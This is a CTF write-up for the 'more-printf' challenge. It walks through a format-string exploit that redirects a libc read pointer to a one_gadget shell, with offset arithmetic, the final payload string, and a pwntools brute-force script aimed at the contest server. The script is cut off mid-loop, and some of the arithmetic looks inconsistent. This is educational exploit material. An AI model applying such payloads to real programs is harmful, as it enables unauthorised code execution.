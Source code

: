 We can use the address of `__libc_start_main+231` which is at our 8th offset, and add an offset to it to turn it into a `one_gadget` address.

Let's calculate our offset from `__libc_start_main+231` to `one_gadget`.

First, we find our one_gadget offset from libc base.

```cs
0x4f365 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f3c2 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a45c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

Using `vmmap` in gdb, we can obtain our libc base address.

```py
_libc_start_main_ret = 0x00007ffff7a03bf7
_libc_base = 0x00007ffff79e2000

one_gadget = _libc_base + 0x4f3d5 = 0x00007fff08629be7
diff = one_gadget - _libc_start_main_ret = 186334

# since we have already written %c%c%c%5c = 8 bytes, we just have to write
186334 - 8 = 186326 # bytes more.
```

Here is what our second payload will consist of :

1. `%*8$c` : prints number of characters equals to its address `0x7ffff7a05b97`
2. `%186326c` : adds offset to one_gadget
3. `%5$n` : overwrites address of read to number of bytes written before it.

Hence, putting our payloads together, we have

`%c%c%c%5c%hhn%*8$c%186326c%5$n`

which modifies our pointer to `read` and modifies `read` address to `one_gadget`.

However, since our second `%n` modifies all 8 bytes of the address and only the last 3 nibbles of libc address is deterministic, there is only a `1 in 32` chance of obtaining our shell. Hence we can write a script for this.

```py
from pwn import *
from warnings import filterwarnings as fw
fw('ignore', category=BytesWarning)


counter = 0
with log.progress("brute forcing to shell") as pro:
    while True:
        try:
            # p = process('./more-printf')
            with context.quiet:
                p = remote('pwn.zh3r0.cf', 2222)
            p.sendline('%c%c%c%5c%hhn%*8$c%186326c%5$n')
            p.sendline("cat flag")
            p.recvline()
            log.success("enjoy your shell :)")
            p.interactive()
        except EOFError:
```